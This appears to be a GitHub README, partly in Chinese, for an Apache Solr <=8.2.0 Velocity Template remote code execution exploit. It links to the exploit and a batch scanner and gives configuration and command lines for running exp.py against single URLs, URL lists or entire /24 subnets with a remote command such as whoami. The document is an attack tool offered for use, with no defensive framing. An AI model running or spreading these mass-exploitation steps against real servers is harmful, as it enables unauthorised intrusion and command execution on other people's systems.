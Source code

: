 # Apache Solr <=8.2.0 Velocity Template 0day Exploit

Exploit: https://github.com/k8gege/SolrExp<br>
Cscan: https://github.com/k8gege/K8CScan<br>
### 环境
下载Solr 8.2.0添加core,默认配置即可。7.x版本自带core
### 配置
0x001 批量URL配置Cscan.ini<br>
[Cscan]<br>
exe=F:\Python279\python.exe<br>
arg=exp.py $ip$ whoami<br>
0x002 批量C段配置Cscan.ini<br>
[Cscan]<br>
exe=F:\Python279\python.exe<br>
arg=exp.py http://$ip$:8983 whoami<br>
### 利用
单个: python exp.py url cmd<br> 或 Cscan url<br>
批量C段: Cscan 192.168.1.8/24<br>
批量URL: Cscan (同目录放url.txt)

<img src=https://github.com/k8gege/SolrExp/blob/master/Solr0day.gif>
